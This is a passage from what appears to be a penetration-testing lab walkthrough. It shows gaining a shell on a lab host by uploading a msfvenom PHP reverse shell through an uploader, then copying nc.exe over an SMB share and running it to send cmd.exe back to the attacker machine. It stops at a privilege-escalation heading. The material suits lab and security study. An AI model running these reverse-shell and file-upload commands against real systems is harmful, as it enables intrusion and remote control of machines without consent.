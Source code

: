 * There is now an uploaded in 192.168.75.189:8080/uploader.php

4\. Generate a payload with Msfvenom

```
msfvenom -p php/reverse_php LHOST=192.168.49.75 LPORT=443 -f raw -o shell.php
```

* The reverse shell will be saved as shell.php
* Upload the reverse shell into the uploader
* Start an rlwrap netcat listener

```
sudo rlwrap nc -lnvp 443
```

* Trigger the reverse shell

```
curl --proxy http://192.168.75.189:3128 -s http://192.168.75.189:8080/shell.php
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Stable Shell

Start SMB Server on Kali

```
impacket-smbserver smb . -smb2support
```

Mount Share and copy netcat binary on target

```
net use \\192.168.49.75\smb
The command completed successfully

copy \\192.168.49.75\smb\nc.exe
```

Start listener on Kali and execute reverse shell

```
sudo rlwrap nc -lnvp 80

nc.exe 192.168.49.75 80 -e cmd.exe
```

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation
